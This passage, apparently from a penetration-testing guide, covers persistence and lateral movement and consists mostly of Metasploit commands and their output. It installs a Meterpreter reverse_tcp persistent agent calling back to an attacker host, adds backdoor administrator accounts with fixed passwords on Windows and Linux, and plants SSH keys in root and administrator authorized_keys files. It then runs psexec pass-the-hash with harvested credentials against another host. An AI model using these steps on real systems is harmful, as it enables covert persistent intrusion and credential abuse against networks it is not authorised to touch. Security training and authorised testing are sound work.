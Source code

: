 ## 4. Persistence & Maintaining Access

### Creating Backdoors:
```bash
# Meterpreter persistence module
meterpreter > run persistence -U -i 5 -p 443 -r 192.168.1.102
[*] Running Persistence Script
[*] Resource file for cleanup created: /root/.msf4/logs/persistence/SRV-WEB01_20230920.1342/SRV-WEB01_20230920.1342.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.1.102 LPORT=443
[*] Persistent agent script is 996512 bytes long
[+] Persistent Script written to C:\Windows\TEMP\qjH.exe
[*] Executing script C:\Windows\TEMP\qjH.exe
[+] Agent executed with PID 4567
```

### Creating Alternate Users:
```bash
# On Windows
meterpreter > shell
C:\> net user pentester P@ssw0rd123! /add
C:\> net localgroup administrators pentester /add

# On Linux
meterpreter > shell
$ useradd -m -s /bin/bash pentester
$ echo "pentester:P@ssw0rd123!" | chpasswd
$ usermod -aG sudo pentester
```

### Installing SSH Backdoors:
```bash
# On Linux
meterpreter > shell
$ echo "ssh-rsa AAAAB3NzaC1yc2E..." >> /root/.ssh/authorized_keys
$ echo "ssh-rsa AAAAB3NzaC1yc2E..." >> /home/pentester/.ssh/authorized_keys

# On Windows (with OpenSSH installed)
C:\> echo ssh-rsa AAAAB3NzaC1yc2E... >> C:\ProgramData\ssh\administrators_authorized_keys
```

## 5. Lateral Movement & Domain Exploration

### Password Spraying & Hash Passing:
```bash
# Use harvested hashes for lateral movement
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS 192.168.1.110
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
msf6 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
msf6 exploit(windows/smb/psexec) > set payload windows/meterpreter/bind_tcp
msf6 exploit(windows/smb/psexec) > run
```
